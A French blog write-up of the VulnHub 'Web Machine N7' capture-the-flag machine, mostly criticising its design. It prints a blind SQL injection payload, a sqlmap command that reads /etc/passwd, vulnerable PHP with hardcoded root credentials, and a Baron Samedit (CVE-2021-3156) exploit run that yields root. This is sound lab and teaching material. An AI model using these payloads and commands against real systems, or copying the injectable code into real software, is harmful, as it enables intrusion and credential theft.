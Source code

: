 # Solution du CTF Web Machine N7 de VulnHub

Worst CTF Ever
--------------

[Web Machine N7](https://www.vulnhub.com/entry/web-machine-n7,756/) est le nom d'un CTF téléchargeable sur VulnHub (le dernier publié au moment de ces lignes) et a été créé par un certain *Duty Mastr* qu'ils auraient mieux fait de noyer à la naissance.  

C'est déjà avec une certaine appréhension que je télécharge la VM puisque déjà elle fait 5.7Go et d'après la capture d'écran sur VulnHub elle est basée sur une installation graphique de Kali Linux. Mais quel genre d'abrutit utiliserait Kali Linux comme base pour un CTF ?  

Une fois la VM importée on remarque qu'elle est configurée pour utiliser 8192 Mo de RAM là où 4096 sera amplement suffisant.  

Le nanard des CTF
-----------------

Un seul port ouvert, bien sûr un serveur Apache. Le site est une coquille vide et il faut tester un bon nombre de wordlists avant d’obtenir plus que le fichier *profile.php* et la page d'index. Mais, en testant tous les mots de la langue de Shakespeare, on découvre une page supplémentaire :  

```plain
$ feroxbuster -u http://192.168.56.18/ -w /opt/hdd/downloads/tools/wordlists/english -x php,html,txt

200       11l       27w      279c http://192.168.56.18/exploit.html
200       49l      107w     1620c http://192.168.56.18/index.html
200       43l       94w     1473c http://192.168.56.18/profile.php
```

Cette page *exploit.html* correspond à un formulaire d'upload qui poste vers *localhost/profile.php*.  

On peut bêtement utiliser les outils de développement du navigateur pour corriger cette URL avec la bonne adresse IP pour faire fonctionner l'upload.  

On est remercié par un flag mais le fichier n'est uploadé nul part... On a donc ici une étape qui ne sert à rien.  

Après encore plus d'énumération et comme on ne trouve rien il faut bien chercher sur Internet si quelqu'un est allé plus loin.  

Il existe en fait un dossier *enter\_network* à la racine du site que personne n'aurait pu trouver (mis à part en trichant) puisque ce path n'est présent dans aucune wordlist existante !  

Là on découvre une page de login dont Wapiti découvre rapidement qu'elle est vulnérable à une faille d'injection SQL en aveugle :  

```plain
---
Vulnérabilité d'injection SQL en aveugle dans http://192.168.56.18/enter_network/ via une injection dans le paramètre user
Evil request:
    POST /enter_network/ HTTP/1.1
    Host: 192.168.56.18
    Referer: http://192.168.56.18/enter_network/
    Content-Type: application/x-www-form-urlencoded

    user=%27%20or%20sleep%287%29%231&pass=Letm3in_&sub=SEND
---
```

A partir de là on joue un peu avec SQLmap. Forcément au vue de l'exploitation time-based c'est très lent mais on peut par exemple trouver le flag utilisé comme mot de passe pour l'administrateur dans une des tables.  

Ceci ne nous amène là encore strictement nul part. Toutefois les requêtes sont faites avec l'utilisateur *root* ce qui nous permet de lire les scripts web sur le serveur (avec l'option *--file-read* de SQLmap).  

```plain
python sqlmap.py -u "http://192.168.56.18/enter_network/" --data "user=zz&pass=zz&sub=SEND" -p user --dbms mysql --risk 3 --level 5  --technique=T --file-read=/etc/passwd --no-cast --time-sec=2
```

Par exmple le fichier */var/www/html/enter\_network/index.php* :  

```php
<!DOCTYPE html>
<html>
<head>
    <title>entering network</title>
</head>
<body>
    <?php
    $hostname = 'localhost';
    $username = 'root';
    $password = '123456789';
    $database = 'Machine';
$connect = mysqli_connect($hostname,$username,$password,$database);

if (isset($_POST['sub'])) {
    $user = $_POST['user'];
    $pass = $_POST['pass'];
    $query = "select * from login where username='$user' and password='$pass'";
    $result = mysqli_query($connect,$query);
    $row = mysqli_fetch_assoc($result);
    $role = 'admin';
    $role = urlencode(base64_encode(md5($role)));
    $cookie = $row['username'].':'.$row['password'];
    $cookie = base64_encode(password_hash($cookie,2));
    setcookie('user',$cookie, time()+10000,'/');
    setcookie('role',$role,time()+10000,'/');
}

?>
<center>
<form action="" method="POST">
    username: <input type="text" name="user">
    <br>
    password: <input type="password" name="pass">
    <br>
    <input type="submit" name="sub" value="SEND">
</form>
</center>

</body>
</html>
```

Le fichier */var/www/html/enter\_network/admin.php* :  

```php
<!DOCTYPE html>
<html>
    <head><title>admin interface</title></head>
<body>
    <?php
$hostname = 'localhost';
$username = 'root';
$password = '123456789';
$database = 'Machine';
$connect = mysqli_connect($hostname,$username,$password,$database);
$query = "select password from login";
$result = mysqli_query($connect,$query);
$row = mysqli_fetch_assoc($result);

if ($_COOKIE['role'] == 'admin') {
    $FLAG = explode(':',$row['password']);    
    echo $FLAG[1];;
}
else {
    echo 'this interface is admin only';
}

?>
</body>
</html>
```

et le fichier *profile.php* à la racine du site :  

```php
<?php
$hostname = 'localhost';
$username = 'root';
$password = '123456789';
$database = 'Machine';
$connect = mysqli_connect($hostname,$username,$password,$database);
$query = "select password from login";
$result = mysqli_query($connect,$query);
$row = mysqli_fetch_assoc($result);

if (isset($_FILES['file'])) {
    $FLAG = explode(':',$row['password']);    
    echo $FLAG[0];
}
?>
```

Oui vous avez bien compris, ces scripts ne permettent pas d'aller plus loin que la faille SQL déjà trouvée !  

On peut espérer profiter des droits root pour écrire un fichier sur le disque avec *SELECT INTO OUTFILE* sauf que c'est impossible car après vérification */var/www/html* est la propriété de root et donc *www-data* ne peut pas écrire dessus mais de plus l'utilisation d'une version récente de MySQL/MariaDB bloque ce genre de chose...  

Pour résumer on a :  

* des étapes qui ne servent à rien
* des étapes qui ne s'enchaînent pas
* un dossier impossible à trouver
* une VM d'une taille largement exagérée pour faire tourner 3 scripts PHP
* aucune découverte technique ni aucun plaisir sur ce CTF

Sous le capot
-------------

Si on boot la VM et que l'on sélectionne les options avancées on peut éditer l'entrée GRUB avec la touche *e* et [changer le mot de passe root](https://linuxconfig.org/recover-reset-forgotten-linux-root-password) histoire de fouiller un peu.  

Comme dit plus tôt toute écriture sur le disque est vouée à l'échec en raison des permissions. Seul le fichier *profile.php* dispose de permissions qui autorisent sa réécriture mais un des prérequis de *SELECT INTO OUTFILE* est que le fichier ne doit pas déjà exister.  

```plain
┌──(root💀kali)-[/var/www/html]
└─# ls -al /var/www/html 
total 176
drwxr-xr-x 3 root     root   4096 Oct 30 01:43 .
drwxr-xr-x 3 root     root   4096 Oct 29 21:10 ..
-rwxr-xr-x 1 root     root 149791 Oct 30 01:01 bootstrap.min.css
drwxr-xr-x 2 root     root   4096 Oct 30 01:44 enter_network
-rw-r--r-- 1 root     root    279 Oct 30 01:04 exploit.html
-rwxr-xr-x 1 root     root   1620 Oct 30 01:01 index.html
-rwxr-xr-x 1 root     root      0 Oct 30 01:01 javascript.js
-rwxrwxrwx 1 www-data root   1860 Oct 30 01:43 profile.php
-rwxr-xr-x 1 root     root    293 Oct 30 01:01 style.css
```

Soit l'auteur a choisit d'arrêter les frais à ce moment, soit il ne sait pas lire une page de manuel et dans tous les cas il n'a pas du tester son propre CTF.  

On découvre d'ailleurs en fouillant sur la machine qu'aucune exploitation locale n'a été mis en place volontairement. Le système est tout de même vulnérable à la faille Sudo Baron Samedit :  

```plain
┌──(kali㉿kali)-[~/CVE-2021-3156-main]
└─$ python exploit_nss.py 
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),129(lpadmin),135(scanner),148(kaboxer),1000(kali)
# lsb_release -a
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2020.4
Codename:       kali-rolling
```

Bref un CTF inutile et inutilisable qui ne fait que gaspiller du temps, de l'espace disque et de la bande passante.  


*Published January 09 2022 at 14:21*